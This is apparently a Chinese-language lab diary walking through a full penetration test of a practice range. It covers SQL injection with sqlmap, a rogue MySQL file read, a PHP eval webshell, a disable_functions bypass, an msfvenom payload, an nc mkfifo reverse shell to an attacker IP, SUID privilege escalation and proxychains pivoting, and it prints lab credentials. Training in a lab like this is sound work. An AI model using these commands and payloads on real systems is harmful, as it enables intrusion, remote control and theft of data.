


打靶日记（二）linux内网完整渗透测试
声明：此系列文章系个人记录打靶过程的文章，靶场为暗月师傅的靶场。这是第二篇。
1. DDD4 靶场介绍
本靶场存在三个 flag 把下载到的虚拟机环境导入到虚拟机，本靶场需要把网络环境配置好。
1.1.网络示意图
2.信息收集
2.1主机发现
1 | netdiscover -i eth0 -r 192.168.1.0/24 |
2.2端口探测
1 | masscan -p 1-65535 192.168.1.122 --rate=10000 |
2.3.nmap 端口信息获取
1 | nmap -sC -p 3306,80,8888,21,888 -A 192.168.1.122 -oA ddd4-port |
2.4gobuser 的高级用法
1 | gobuster dir -u http://www.ddd4.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x 'php,zip,html,rar' -o ddd4.log --wildcard -l | grep -v 10430 | grep -v "Size: 49" |
3. 对目标进行渗透测试
3.1sqlmap编码注入利用
1 | sqlmap -u http://www.ddd4.com/search?keyword=11 --tamper chardoubleencode.py -v 1 --batch -p keyword |
1 | sqlmap -u http://www.ddd4.com/search?keyword=11 --tamper chardoubleencode.py -v 1 --batch -p keyword -D www_ddd4_com --dump -T doc_user |
1 | webadmin |
明文是加密的解不开的
3.2.MYSQL 服务器恶意读取客户端文件漏洞利用
Rogue-MySql-Server 读取文件
1 | https://github.com/allyshka/Rogue-MySql-Server |
1 | http://www.ddd4.com/setup/checkdb.php?dbname=mysql&uname=root&pwd=123456&dbhost=192.168.8.133&action=chkdb |
获取报错路径
获取 /etc/passwd 内网
3.3.Rogue-MySql-Server 读取配置文件
1 | /www/wwwroot/www.ddd4.com/config/doc-config-cn.php |
得到数据库连接文件
1 | dbname www_ddd4_com |
3.4登录 mysql
1 | mysql -h192.168.8.122 -uwww_ddd4_com -px4ix6ZrM7b8nFYHn |
3.5后台密文登录
密文不能直接破解，只能替换登录登录之后再替换回来，修改程序生成密文 admin 的明文为
1 | 33e2q1yc3d033e22aesyc2140aec3l850c3a99s21232f297uj57a5a7438n4a0ex4a80 1yc3d0 |
数据库修改密文
原来的密文
1 | 33e2q1yc3d033e22aesyc2140aec3l850c3a99s21232f297uj57a5a7438n4a0ex4a801yc3d0 |
1 | show databases; |
http://www.ddd4.com/admini/login.php
admin admin
成功登录后台。
3.6后台上传漏洞
1 | admini\controllers\system\bakup.php |
存在逻辑问题 上传 SQL 判断没有退出 导致可上传任何文件 数据包
3.7模板编辑拿 webshell
1 | <?php eval($_POST['cmd']);?> |
输入之后，直接按下ctrl+s即可“编辑成功”
验证是否可用，访问首页，给其进行传参
使用中国菜刀连接
4.Linux权限提升
4.1突破 disable_functions 提权
这套新系统的宝塔系统 php 禁止很多函数的执行
1 | passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,i |
有些版本还是漏了一些函数可以执行
查看网卡信息
1 | http://www.ddd4.com/bypass_disablefunc.php?cmd=ifconfig&outpath=/tmp/xx&sopath=/www/wwwroot/www.ddd4.com/bypass_disablefunc_x64.so |

反弹shell失败
4.2.metasploit 反弹 shell
4.2.1.生成攻击载荷
1 | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.8.133 LPORT=13777 -f elf >/root/moonsec/2020/project5/ddd4 |
4.2.2监听端口
1 | Msfconsole |
4.2.3成功监听 shell
将文件上传到添加执行权限，在目录执行即可
1 | http://www.ddd4.com/bypass_disablefunc.php?cmd=chmod%20777%20ddd4&outpath= |
输入shell
切换到shell
1 | python -c 'import pty;pty.spawn("/bin/bash")' |
4.3建立交互shell
1 | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.8.133 9001 >/tmp/f |
4.4查看用户
1 | cat /etc/passwd | grep bash |

4.5获取第一个flag
1 | cat /home/host123/flag.txt |
4.6通过宝塔提权到root
翻找目录从桌面找到一个敏感文件
1 | /home/host123/bt.txt |

1 | www@host123:/$ cat /home/host123/bt.txt |
登录地址：http://192.168.8.122:8888/944906b5/

4.6通过 suid 提权到 root
1 | find / -type f -perm -u=s 2>/dev/n |
1 | find inc -exec whoami \; |
1 | find . -exec /bin/sh -p \; -quit |
4.8.linux 三大信息收集脚本的使用和解释
4.8.1.LinEnum 的使用
这个脚本是用来收集系统的信息 如 特殊文件的权限 suid 文件信息 网络端口信息 建立 WEB 服务器
1 | sudo python -m SimpleHTTPServer 80 |
历史记录找到 root 密码 yanisy123
4.8.2.linux-exploit-suggester.sh的使用
这个用来检测是否存在提权 cve 漏洞
4.8.3.linuxprivchecker.py
这个用来检测权限
python linuxprivchecker.py
su host123
输入密码之后,查看当前用能执行的命令
sudo -l
4.10获取第二个flage
5. linux 内网跨网段渗透
5.1.获取高权限的 meterpreter
先用 metasploit 反弹一个 root 权限的 meterpreter
1 | msf5 exploit(multi/handler) > exploit -j 放在后台执行 |
5.2网卡路由信息获取
1 | run get_local_subnets |
5.3查看 host 文件
1 | cat /etc/hosts |
5.4metasploit 设置代理进入内网
1 | run autoroute -s 10.10.10.0/24 |
5.4.1启动 socks 模块
1 | use auxiliary/server/socks_proxy |

启动代理
5.4.2设置 proxychains 代理进内网
1 | vim /etc/proxychains4.conf |
1 | proxychains nmap -sT -Pn 10.10.10.144 |
5.5对 www.ddd5.com 进行检测
Kali中添加hosts
5.5.1.设置浏览器代理访问
1 | proxychains firefox http://www.ddd5.com |
发现是 emlog 后台默认密码 123456 即可登录。
Msf的代理不够稳定，我们自己搭建一个代理来访问。
Kali上操作：
1 | tar zxvf ssocks-0.0.14.tar.gz |
受害机操作：
1 | tar zxvf ssocks-0.0.14.tar.gz |
5.5.2后台拿 WEBSHELL
从网上下来一个 emlog 把带有后门文件的 php 设置打包好在 emlog 后台上传模板压缩包解压后即可在模板名的目录生成一个 php 后门。
1 | www.ddd5.com/content/templates/moonsec/moon.php |
中国蚁剑设置代理连接
6.linux 内网跨网段提权
6.1wdcp主机提权
访问地址：10.10.10.144:8080/phpMyAdmin
输入账号：root 密码：wdlinux.cn
登录成功
Echo -n 123456 | md5sum
使用修改后的密码：123456，登录成功(如果一直登录不上，可能是运行web的系统的时间和本机的时间不一致)
生成密钥
1 | 在 kali 设置权限 600 proxychains ssh root@10.10.10.144 -i sshkey_wdcp |